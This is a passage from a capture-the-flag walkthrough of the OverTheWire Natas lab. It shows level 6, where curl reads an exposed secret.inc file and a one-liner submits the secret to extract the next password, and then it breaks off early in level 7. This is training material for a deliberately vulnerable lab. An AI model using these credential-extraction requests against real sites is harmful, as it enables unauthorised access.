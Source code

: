 It looks like this script is using `include` to include a file named `secret.inc`, which is likely where the secret is being defined. Let's see what's in the file:

```bash
$ curl -s http://natas6:$natas6_pass@natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

If we look at the first two lines of the script, we can see how to submit our secret:

```php
    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
```

We need to send a `POST` request with the parameters `secret` and `submit`. Now we can now craft a `curl` command to get the password for us.

```bash
curl -s "http://natas6:$natas6_pass@natas6.natas.labs.overthewire.org/" -X 'POST' -d "secret=$(curl -s http://natas6:$natas6_pass@natas6.natas.labs.overthewire.org/includes/secret.inc | grep -oP '\$secret = "\K[^"]+')&submit" | sed "s/$natas6_pass//g" | egrep -o [[:alnum:]]{32}
```

[*Back to top*](#overthewire---natas)

## Level 7

![natas7_index.jpg](screenshots/natas/natas7_index.jpg)

For this level, we are presented with a website which contains two links to `Home` and `About`. If check the source code, we can see how the pages are loaded:

![natas7_1.jpg](screenshots/natas/natas7_1.jpg)

